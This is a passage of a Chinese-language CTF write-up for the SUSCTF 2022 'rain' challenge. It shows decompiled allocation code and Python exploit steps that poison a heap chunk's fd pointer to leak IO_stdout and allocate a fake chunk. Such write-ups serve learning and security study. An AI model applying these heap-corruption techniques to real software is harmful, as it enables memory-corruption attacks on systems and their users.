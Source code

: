 ```c
  for ( i = 0; i <= 25; ++i )
    *(_BYTE *)(myRain->chunk + i) = i + 65;
  myRain->userchunk = 0LL;
  myRain->chunk0 = (__int64)malloc(8LL * myRain->height);
  myRain->chunk1 = (__int64)malloc(8LL * myRain->height);
  for ( j = 0; j < myRain->height; ++j )
  {
    v0 = (void **)(myRain->chunk0 + 8LL * j);
    *v0 = malloc(myRain->width);
    v1 = (void **)(myRain->chunk1 + 8LL * j);
    *v1 = malloc(4LL * myRain->width);
  }
  sub_401091((unsigned int *)myRain);
  byte_603070 = 1;
  return myRain;
}
```

利用如下代码进行调试：

```python
    # 4 --modify fd
    fake_fd = 0x603000			# leak IO_stdout
    frame4 = Frame(0x60, 0x60, 3, 4, 1, p64(fake_fd))
    Config(frame4)
```

得到：

![](./ctf-susctf2022-rain/bins_info_1.jpg)

接着调用start_rain来重置，并申请掉伪造的堆块；

```python
    # 5 -- init to malloc fake chunk
    Start_rain()

    # 6 -- new chunk to print IO_stdout
    frame5 = Frame(0x30, 0x30, 3, 4, 1, b'c'*0x20)
    Config(frame5)
```

可以得到如下结果：

![](./ctf-susctf2022-rain/fake_chunk.jpg)
